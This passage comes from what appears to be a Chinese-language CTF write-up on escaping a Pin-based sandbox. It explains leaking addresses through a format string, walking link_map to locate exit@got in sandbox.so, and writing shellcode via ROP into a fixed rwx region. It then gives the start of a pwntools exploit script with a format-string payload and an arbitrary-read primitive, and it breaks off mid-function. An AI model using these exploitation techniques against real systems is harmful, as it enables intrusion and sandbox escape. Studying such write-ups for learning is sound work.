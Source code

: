 结合之前关于`DT_DEBUG`的[文章](http://rk700.github.io/article/2015/04/09/dt_debug-read)，我们可以遍历来获得`sandbox.so`在内存中的地址，进而得到`sandbox.so`里的`exit@got`的地址。具体地：

{% highlight bash %}
$ readelf -lW /opt/pin/intel64/bin/pinbin 

Elf file type is DYN (Shared object file)
Entry point 0x3041b5150
There are 8 program headers, starting at offset 64

Program Headers:
  Type           Offset   VirtAddr           PhysAddr           FileSiz  MemSiz   Flg Align
  PHDR           0x000040 0x0000000304000040 0x0000000304000040 0x0001c0 0x0001c0 R E 0x8
  INTERP         0x001024 0x0000000304001024 0x0000000304001024 0x00001c 0x00001c R   0x1
      [Requesting program interpreter: /lib64/ld-linux-x86-64.so.2]
  LOAD           0x000000 0x0000000304000000 0x0000000304000000 0x7e37a4 0x7e37a4 R E 0x200000
  LOAD           0x7e37a8 0x00000003049e37a8 0x00000003049e37a8 0x0a3588 0x1b3380 RW  0x200000
  DYNAMIC        0x87e3e0 0x0000000304a7e3e0 0x0000000304a7e3e0 0x0001e0 0x0001e0 RW  0x8
...
{% endhighlight %}

我们知道`.dynamic`会在`0x304a7e3e0`。所以通过不断地`printf`打印内存信息，遍历`link_map`，获得`sandbox.so`的地址。

此外，检查maps发现，内存中有`rwx`的区域的，其地址也是每次不变的，应该是`pinbin`引入的。所以我们可以先ROP，将shellcode写到那个`rwx`的区域；并修改`sandbox.so`中的`exit@got`指向我们的shellcode，最后调用不符要求的syscall，即达到目的。具体地，ROP我是先通过`pop; ret`把几个寄存器的值设好，再调用`login`中的一个类似于`readline`的函数，来实现写shellcode到指定位置。

下面是具体的代码，有些乱……

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='amd64', os='linux')
    
    ip = "127.0.0.1"
    #ip = sys.argv[1]
    conn = remote(ip, 55555)
    f = open("pl", "wb")

    def send(data):
        conn.send(data)
        f.write(data)

    payload = "guest\nguest123\n2\n" + "A"*256 + "4\n" + "%1$p,%3$p\n1234\n"

    send(payload)

    conn.recvuntil("Password: ")
    conn.recvuntil("Password: ")
    addrs = (conn.recvline(keepends=False).split(" ")[0]).split(',')

    base = int(addrs[0], 16)-0x1490
    stack = int(addrs[1], 16)
    retAddr = stack - 0x8
    print "ret addr is %s" % hex(retAddr)
    print "base is %s" % hex(base)

    addr0 = (base+0x1053) & 0xffff

    def readStr(where):
        username = "%%%dx%%40$hn--%%41$s--" % addr0
        password = p64(retAddr) + p64(where)
        send(username+'\n'+password+'\n')
        conn.recvuntil('--')
        return conn.recvuntil('--')[:-2]

    def read8(where):
        content = ''